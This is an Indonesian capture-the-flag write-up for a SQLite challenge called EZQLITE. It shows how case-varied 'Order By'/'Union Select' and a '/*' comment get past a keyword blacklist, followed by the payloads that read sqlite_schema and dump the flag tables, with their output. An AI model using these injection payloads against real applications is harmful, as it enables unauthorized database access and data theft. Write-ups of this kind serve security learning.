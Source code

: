 # EZQLITE
It's just a simple website, nothing strange right?

## Solution
Dikarenakan word blacklist nya ada '--' 'LIKE' 'like' 'ORDER' 'order' 'UNION' 'union' 'SELECT' 'select' yang di mana kita tidak bisa menggunakan words tersebut
jadi saya menggunakan cara lain untuk comment **--** yaitu menggunakan ** /* **
Untuk mengetahui jumlah columns kita menggunakan **order by** dikarenakan sebagian ada yang di blacklist jadi saya mencoba menggunakan **Order By**

Payload: ```' Order By 3,2,1 /*```

Lalu mencari nomor togel langsung saja eksekusi menggunakan **UNION SELECT** dikarenakan sebagian ada yang diblacklist jadi saya mencoba menggunakan **Union Select**

Payload: ```' Union Select 3,2,1 /*```

Setelah muncul nomor togel nya langsung kita cari nama nama tabel yang ada di dalam database

Payload: ```' Union Select 3,sql,1 From sqlite_schema/*```
Response: 

```
CREATE TABLE flag_1 (id INTEGER PRIMARY KEY, flag TEXT)	1	#3
CREATE TABLE flag_2 (id INTEGER PRIMARY KEY, flag TEXT)	1	#3
CREATE TABLE flag_3 (id INTEGER PRIMARY KEY, flag TEXT)	1	#3
CREATE TABLE flag_4 (id INTEGER PRIMARY KEY, flag TEXT)	1	#3
CREATE TABLE flag_5 (id INTEGER PRIMARY KEY, flag TEXT)	1	#3
CREATE TABLE songs ([rank] INTEGER PRIMARY KEY, [title] TEXT, [artist] TEXT)	1	#3
```
![Screenshot](https://media.tenor.com/4IxtijQfVnEAAAAC/baby-scream-yeah.gif)
Terdapat isi column ada ***id**** dan ada ***flag*** jika sudah tau nama column nya langsung aja kita dump data datanya

Payload: ```' Union Select 3,flag,1 From flag_1/*```
Response:
```
ForestyHC{fake_flag_167909}	1	#3
ForestyHC{fake_flag_45c48c}	1	#3
ForestyHC{fake_flag_8f14e4}	1	#3
ForestyHC{fake_flag_a87ff6}	1	#3
ForestyHC{fake_flag_c4ca42}	1	#3
ForestyHC{fake_flag_c81e72}	1	#3
ForestyHC{fake_flag_c9f0f8}	1	#3
ForestyHC{fake_flag_e4da3b}	1	#3
ForestyHC{fake_flag_eccbc8}	1	#3
```

Ternyata banyak sekali fake flag jadi kita coba cari di tabel lain sampai ketemu flag asli nya, setelah pencarian flag asli nya saya menemukan di tabel ***flag_3***

Payload: ```' Union Select 3,flag,1 From flag_3/*```

Response:
```
ForestyHC{fake_flag_167909}	1	#3
ForestyHC{fake_flag_45c48c}	1	#3
ForestyHC{fake_flag_a87ff6}	1	#3
ForestyHC{fake_flag_c4ca42}	1	#3
ForestyHC{fake_flag_c81e72}	1	#3
ForestyHC{fake_flag_c9f0f8}	1	#3
ForestyHC{fake_flag_e4da3b}	1	#3
ForestyHC{fake_flag_eccbc8}	1	#3
```
ForestyHC{sqlit3_injectiooooonnn_is_basic_0c3662}	1	#3
![Screenshot](https://media.tenor.com/4IxtijQfVnEAAAAC/baby-scream-yeah.gif)